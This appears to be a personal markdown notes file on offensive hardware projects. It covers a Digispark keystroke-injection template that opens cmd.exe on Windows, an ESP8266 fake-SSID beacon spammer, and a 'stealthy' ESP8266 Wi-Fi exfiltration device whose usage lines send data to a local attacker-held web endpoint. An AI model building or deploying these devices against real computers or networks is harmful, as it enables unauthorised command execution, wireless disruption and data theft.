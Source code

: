 # Rubber Ducky
- Requires Arduino
- https://javiervidrua.github.io/blog/jekyll/update/2020/11/06/rubber-ducky-with-digispark-attiny85.html
- DigiKeyboard
- Purpose: 
	- Automatcially execute keybaord actions on Windows computers
- Template
```
#include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.sendKeyStroke(KEY_R , MOD_GUI_LEFT); 
  DigiKeyboard.delay(100);
  DigiKeyboard.print("cmd.exe");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  
}

void loop() {
}
```
# Wifi Beacon
- Requires Arduino
- Generic ESP8266
- Purpose: 
	- Spam multiple SSIDs onto the network. 
	- SSIDs cannot be connected
- POC:
![[POC_WIFI_Beacon.jpg]]
# WIFI Exfil
- Requires Arduino
- Generic ESP8266, ESPAsyncTCP, ESPAystncWebServer
- Purpose
	- Stores any string/hash/word data via WIFI connection
	- Stealthy
- Cons:
	- Does not work with IOS devices
	- only laptop devies so far
	- No internet connection
- Usage
```
192.168.4.1/login?password=DATA
192.168.4.1/storage1
To access other storages read the code <3
```
- POC
![[POC1_WIFI_EXFILL.png]]
![[POC2_WIFII_EXFILL.png]]